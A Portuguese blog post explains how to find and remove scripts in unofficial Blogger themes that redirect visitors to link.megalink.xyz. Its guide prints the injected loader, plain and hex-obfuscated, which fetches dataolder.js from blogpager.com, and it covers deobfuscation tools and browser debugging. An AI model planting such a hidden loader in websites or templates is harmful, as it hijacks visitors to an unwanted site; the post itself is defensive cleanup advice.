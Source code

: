```yaml
---
title: Blogger redirecionando para o megalink.xyz
date: 2023-07-02
author: M4rQu1Nh0S
tags: [blogger, redirecionando, sozinho, megalink.xyz, automaticamente]
subtitle: Saiba como resolver esse redirecionamento indesejado
category: [Dicas e tutoriais, Blogger]
comments: true
#cover-img: /assets/img/path.jpg
thumbnail-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
share-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
layout: post
---
```


<p align='center'><img alt='Blogger logo' src="https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png"/></p>
Um problema que pode acontecer ao utilizar temas não oficiais do blogger, alguns temas possuem códigos que ocasionalmente faz com que as visitas no seu blog sejam automaticamente redirecionadas para um outro site. Tal problema que comecei a ter recentemente em um template do blogger que já vinha utilizando a muito tempo atrás.

Enfim, indo direto ao ponto, no meu caso o problema foi causado por 2 scripts que estavam no html do blog

	//commentid.com/dataolder.js

e

	//blogpager.com/dataolder.js

Na grande maioria das vezes, com esses dois scripts, seu blog é redirecionado para o site https:// **link.megalink.xyz**]

Portanto basta editar o código html do blogger e remover todas as linhas que contem esse **dataolder.js**

**Conteúdo**

1. [Pode acontecer desse script estar “disfarçado” no html](#pode-acontecer-desse-script-estar-disfarçado-no-html)
2. [“DesOfuscando” um código](#desofuscando-um-código)
3. [Como encontrar o script no html do blogger](#como-encontrar-o-script-no-html-do-blogger)
4. [Usando o debugger do browser para diagnóstico](#usando-o-debugger-do-browser-para-diagnóstico)
5. [Observações sobre o problema](#observações-sobre-o-problema)

## Pode acontecer desse script estar “disfarçado” no html
Existe uma espécie de codificação em linguagens de programação que “disfarçam” que podemos chamar de **ofuscador**.

O Ofuscador faz com que um código como esse:

```
<script type='text/javascript'>
_wau.push(["small", "00wy9zw057rt", "pd4"]);
(function () {
  var rahja = document.createElement("script");
  rahja.async = true;
  rahja.src = "//blogpager.com/dataolder.js";
  document.getElementsByTagName("head")[0].appendChild(rahja);
}());
</script>
```

Após ofuscado, o código fica assim:

```
<script type='text/javascript'>
var _0x603d=["\x73\x6D\x61\x6C\x6C","\x30\x30\x77\x79\x39\x7A\x77\x30\x35\x37\x72\x74","\x70\x64\x34","\x70\x75\x73\x68","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x73\x79\x6E\x63","\x73\x72\x63","\x2F\x2F\x62\x6C\x6F\x67\x70\x61\x67\x65\x72\x2E\x63\x6F\x6D\x2F\x64\x61\x74\x61\x6F\x6C\x64\x65\x72\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65"];var _wau=_wau|| [];_wau[_0x603d[3]]([_0x603d[0],_0x603d[1],_0x603d[2]]);(function(){var _0xcefcx2=document[_0x603d[5]](_0x603d[4]);_0xcefcx2[_0x603d[6]]= true;_0xcefcx2[_0x603d[7]]= _0x603d[8];document[_0x603d[11]](_0x603d[10])[0][_0x603d[9]](_0xcefcx2)})()
</script>
```

Uma vez que o código esteja ofuscado, você não vai conseguir encontrar o script e daí não conseguirá acabar com a fonte dos redirecionamentos.

## “DesOfuscando” um código

Felizmente existem ferramentas que ajudam a desofuscar, pelo menos parcialmente, um código que está ofuscado.

Vou recomendar alguns exemplos abaixo:

-   [**https://www.seosniffer.com/javascript-deobfuscator**](https://www.seosniffer.com/javascript-deobfuscator)
-   [https://deo.sigr.io/](https://deo.sigr.io/)
-   [https://www.dcode.fr/javascript-unobfuscator](https://www.dcode.fr/javascript-unobfuscator)
-   [https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii](https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii)
    (para traduzir alguns caracteres xml para html e daí desofuscar)

## Como encontrar o script no html do blogger
Agora que já expliquei como identificar um código ofuscado e também ja falei que o script que faz os redirecionamentos (dataolder.js), basta editar o html do blogger.

Abra o painel do blogger e vá nas opções de editar o html, e então use o Ctrl + F e procure por:

	<script type='text/javascript'>

No meio dos resultados você vai encontrar alguns códigos ofuscados, basta pega-los e desofusca-los e observar se tem algo no meio desse código alguma função de redirecionamento.

Ao encontrar basta remover, mas atenção, nem todo código ofuscado vai ter um script de redirecionamento! Alguns autores ofuscam o código para proteger o seu tema de plágio e por isso alguns códigos ofuscados podem apenas conter funções especificas do tema, como animações, estilos de fontes e cores, etc.

## Usando o debugger do browser para diagnóstico.
Todo browser ou a maioria tem as ferramentas de desenvolvedor, no caso do Chrome ele aparece ao pressionar **F12**.

Dá pra usar essa ferramenta para ajudar a encontrar a fonte dos redirecionamentos que está acontecendo no seu blogger.

Basta apertar F12 e seguir os procedimentos:

- Habilitar a visualização mobile
- Na opção **Network**, marcar as opções **Preserve Log** e **Block Requests**
- Na lista **Name** vai haver várias solicitações, ao clicar em uma da lista, observe a guia **Initiator**, ela informa em qual parte do site saiu a solicitação, que no caso é de redirecionamento.

![](https://cdn-images-1.medium.com/max/800/1*vK9hdmPcOOm8Z-3bnHtzbA.png)

## Observações sobre o problema
Curiosamente esse tipo de problema acontece principalmente quando o blog é aberto por um browser mobile ou em modo mobile, em modo computador o redirecionamento não acontece todas as vezes.

Pelo visto os scripts de redirecionamento foram programas para atuarem com mais tendencia em celulares, por tanto quando for investigar as fontes do redirecionamento que está acontecendo no seu blog, experimente faze-lo com o blog aberto em modo mobile.

